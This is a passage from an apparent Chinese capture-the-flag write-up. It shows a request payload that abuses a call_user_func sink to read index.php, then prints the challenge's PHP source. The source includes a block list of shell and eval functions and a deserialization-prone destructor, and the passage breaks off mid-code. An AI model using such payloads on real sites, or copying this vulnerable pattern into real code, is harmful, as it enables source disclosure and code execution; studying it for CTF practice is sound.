 ![在这里插入图片描述](img/edeedd523b9ce8f95e26885bd3cf771a.png)

我们利用file_get_contents 函数获取源码

payload：

func=file_get_contents&p=index.php

源码：

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
```